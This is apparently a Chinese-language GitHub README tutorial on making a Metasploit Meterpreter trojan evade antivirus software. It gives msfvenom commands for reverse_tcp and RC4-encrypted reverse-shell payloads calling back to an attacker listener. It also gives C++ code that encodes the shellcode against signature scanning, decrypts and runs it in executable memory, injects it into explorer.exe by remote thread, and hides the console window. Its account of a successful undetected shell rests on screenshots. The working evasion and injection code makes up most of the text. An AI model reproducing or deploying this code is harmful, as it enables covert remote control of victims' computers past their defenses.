# 与反病毒软件老大哥们的打闹日常
如果觉得对你有启发, 方便点亮个 `star` 呗。
## 前言
临近毕业，前不久去面试与帅气的面试官聊到了免杀，我答内核钩子、应用层勾子和自建API函数... 

## 环境准备
1. Vmware Workstation Pro 15
2. Windows 10
3. Windows Server 2008 R2
4. Visual studio 2017 (C++ 开发环境)
5. Ubuntu 18.04.1 LTS
6. Metasploit

## 打闹开始
### 生成普通的　Windows x64 meterpreter
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=8844 -f exe -o hack.exe
```


这是生成 `meterpreter` 木马最简单的方法，可以预见这种直接生成的木马是肯定会被杀软无情的按在地上摩擦的。


### 生成 meterpreter shellcode
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=8844 -f c
```


### Visual studio 2017 新建项目
1. 项目类型选择 Visual C++ 空项目
2. 项目名称我们命名为 `meterpreter`



### SHELLCODE 处理
想要不被杀软拦截，重点就在修改shellcode上。反病毒软件通过二进制特征码，判断可执行文件是否为病毒文件。我们生成的 meterpreter shellcode 不用思考，肯定是在杀软的病毒特征码仓库的。

#### encry_shellcode 函数
这里我们自己写一个函数，先对我们刚刚生成的 `shellcode` 进行简单的处理。
```cpp
#include <iomanip>
#include <iostream>

void encrypt_shellcode(unsigned char* shellcode, size_t size) {
  // 简单加密
  for (size_t i = 0; i < size - 1; i++) {
    if (shellcode[i] == 0x00) {
      shellcode[i] += 0x05;
    } else {
      if ((shellcode[i] - 0x01) != 0x05) {
        shellcode[i] -= 0x01;
      }
    }
  }
  // 循环输出
  for (size_t i = 0; i < size - 1; i++) {
    std::cout << std::hex << "\\x"
              << std::setfill('0')
              << std::setw(2)
              << (unsigned int)(byte)shellcode[i];
  }
  std::cout << std::endl;
}

int main() {
  unsigned char shellcode[] = "...";
  encrypt_shellcode(shellcode, sizeof(shellcode));
  system("pause");
  return 0;
}
```
`encrypt_shellcode` 函数对shellcode进行了一个简单的加密。
1. 遍历shellcode每一个字符除了末尾的 `\0`
2. 如果当前字符等于 `0x00` 我们将当前字符加上 `0x05`
3. 其他不等于 `0x00` 的字符，当它减 `0x01` 不等于 `0x05` 时, 我们将它减去 `0x01`
4. 遍历输出



#### decrypt_shellcode 函数
```cpp
// 解密shellcode函数
void decrypt_shellcode(unsigned char* shellcode, size_t size) {
  // 解密shellcode
  for (size_t i = 0; i < size - 1 /*最后一位为\0所以无需解密*/; i++) {
    if (shellcode[i] == 0x05) {
      shellcode[i] = 0x00;
    } else {
      shellcode[i] += 0x01;
    }
  }
}
```
解密函数不难理解，就是加密的反操作

### 执行shellcode
我们加密shellcode主要是为了逃避杀软的特征码搜索，但是经过处理的shellcode，肯定是无法执行的，所以我们编写了解密shellcode的函数 `decrypt_shellcode`，这样我们就可以带着处理过的shellcode，想要执行的时候只需解密就可以正常执行了。
```cpp
int main() {
  unsigned char shellcode[] ="..."; // 经过处理的shellcode
   // 解密shellcode
  decrypt_shellcode(shellcode, sizeof(shellcode));
  typedef void(__cdecl * Func)();
  void* p = ::VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE,
                           PAGE_EXECUTE_READWRITE);
  // copy shellcode to p
  memcpy(p, shellcode, sizeof(shellcode));
  Func code = (Func)p;
  code();
  system("pause");
  return 0;
}
```
执行shellcode的方法有很多，我这里只是其中的一种，有兴趣可以问问度娘其他的方法。这里我们切换为Release x64版本编译项目。



使用杀软扫描我们编译的程序。


现在我们设起监听，执行编译好的马，是可以成功反弹shell的，你可以试试，不过咱们的马还是存在一些小瑕疵的，[滑稽]。

### 将shellcode注入其他程序执行
shellcode注入是我突发奇想想出来的，其实不注入直接执行也可以。
```cpp
#include <string>
#include <iostream>
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

// 根据进程名搜索PID
// 根据进程名搜索PID
const unsigned int get_pid(std::string process_name) {
  PROCESSENTRY32 pe32;
  HANDLE hProcSnap = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (hProcSnap == INVALID_HANDLE_VALUE) {
    return 0;
  }
  pe32.dwSize = sizeof(PROCESSENTRY32);
  // 遍历进程
  for (BOOL ret = Process32First(hProcSnap, &pe32); ret;
       ret = Process32Next(hProcSnap, &pe32)) {
    if (process_name == pe32.szExeFile) {
      CloseHandle(hProcSnap);
      return pe32.th32ProcessID;
    }
  }
  CloseHandle(hProcSnap);
  return 0;
}

// 注入函数
bool inject_shellcode(const unsigned int pid, unsigned char* shellcode,
                     size_t size) {
  // 解密shellcode
  decrypt_shellcode(shellcode, size);
  HANDLE hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
  // 获取进程句柄失败
  if (hProcess == INVALID_HANDLE_VALUE) return false;
  auto inject_address =
      ::VirtualAllocEx(hProcess, NULL, sizeof(1000), MEM_COMMIT | MEM_RESERVE,
                       PAGE_EXECUTE_READWRITE);
  // VirtualAllocEx 失败
  if (inject_address == NULL) return false;
  // 远程写入shellcode
  ::WriteProcessMemory(hProcess, inject_address, (PVOID)shellcode, size + 1,
                       NULL);
  HANDLE hThread = ::CreateRemoteThread(
      hProcess, 0, 0, (LPTHREAD_START_ROUTINE)inject_address, NULL, 0, NULL);
  ::WaitForSingleObject(hThread, INFINITE);
  ::CloseHandle(hThread);
  ::VirtualFreeEx(hProcess, inject_address, 0, MEM_RELEASE);
  ::CloseHandle(hProcess);
  return true;
}
```
注入函数是很经典的远程线程注入，看不懂没关系，shellcode注入不是重点。

### 去除命令提示符窗口
如果你运行过我们生成的木马你会发现，一个醒目的黑窗口，亮瞎了你的双目。
现在我们去除命令提示符的黑窗口，隐秘执行我们的木马。

我们修改程序生成 `SUBSYSTEM:WINDOWS` 窗口类程序，并将入口函数修改为WinMain就可以不带命令行提示符运行程序了。

```cpp
int WINAPI WinMain(_In_ HINSTANCE hInstance, _In_opt_ HINSTANCE hPrevInstance,
                   _In_ LPSTR lpCmdLine, _In_ int nShowCmd) {
  unsigned char shellcode[] = "..."; // 加密后的

  const unsigned int explorer_pid = get_pid("explorer.exe");
  // 注入函数内部自解密shellcode
  inject_shellcode(explorer_pid, shellcode, sizeof(shellcode));

  return 0;
}
```
有过 Windows编程经验的大佬肯定了解, 这里我们写了`WinMain` 函数就可以删除`main`函数了。

这里我使用shellcode远程注入 `explorer.exe` 进程来执行我们的木马。你也可以使用我们之前的方法。

### 生成rc4加密通讯的 meterpreter shellcode
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.3 LPORT=8844 RC4PASSWORD=ncvt -f c
```


在找资料的时候发现,好像使用rc4加密通讯的话可以反之杀软动态拦截,管他呢,其实也就换一下shellcode,我们把新的shellcode使用 `encry_shellcode` 函数加密一下就可以了。

### Ubuntu 18.04 启动 meterpreter 监听
参数就下面这些 payload 使用的 `windows/x64/meterpreter/reverse_tcp_rc4`
记得设置 `RC4PASSWORD`


好的我们启用监听 `exploit`。

### Windows Server 2008 R2 运行木马
我们换到 `Windows Server 2008` 中运行我们编译的木马，杀软也换一个。


将木马丢进虚拟机，使用杀软扫描一下。


执行木马,并未拦截，我们切回 `Ubuntu 18.04`


成功反弹了meterpreter shell。


截一张图




## 试验总结
玩了那么久的的是Web安全，第一次写文章居然是写免杀，挺不可思议的，研究了小半个下午，各位看官老爷可以看出，我写的处理shellcode方法挺拙劣的，哈哈！
免杀的学问可不止这一点点,与老大哥们的小打小闹先到这，毕竟人生不应该把精力放在这些小打小闹的垃圾玩意身上，小弟撸代码去了~

## 源码
记得重新生成解决方案
GitHub: https://github.com/dothook/ZiYuanFenXiang 大佬给个 `Star` 呗。
```shell
git clone https://github.com/dothook/FunnyMeterpreter.git
```


## 附加
非常重要!!!
因为可能需要使用Windows相关DLL接口,一定要使用 `MT模式`生成代码,这样就可以静态链接程序,无需依赖一些VC库了。

